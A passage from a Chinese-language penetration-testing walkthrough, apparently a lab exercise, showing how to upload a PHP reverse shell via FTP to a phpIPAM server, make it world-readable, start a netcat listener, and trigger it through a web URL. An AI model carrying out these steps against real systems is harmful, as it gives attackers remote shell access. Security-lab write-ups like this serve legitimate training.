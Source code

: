 ```
cd upload
put reverse_shell.php
ls
```

![image-20250425141650666](assets/image-20250425141650666.png)



此时我们可以看到默认权限为600，即只有anonymous用户可读，因此需要修改其权限以确保web端可以访问

```
chmod 777 reverse_shell.php
ls
```

![image-20250425141926507](assets/image-20250425141926507.png)



### 本地监听

```
sudo nc -lvp 283
```

![image-20250425142249453](assets/image-20250425142249453.png)



### 然后直接在web端访问reverse_shell.php

```
http://192.168.56.112/phpipam/app/admin/import-export/upload/reverse_shell.php
```

![image-20250425142209297](assets/image-20250425142209297.png)
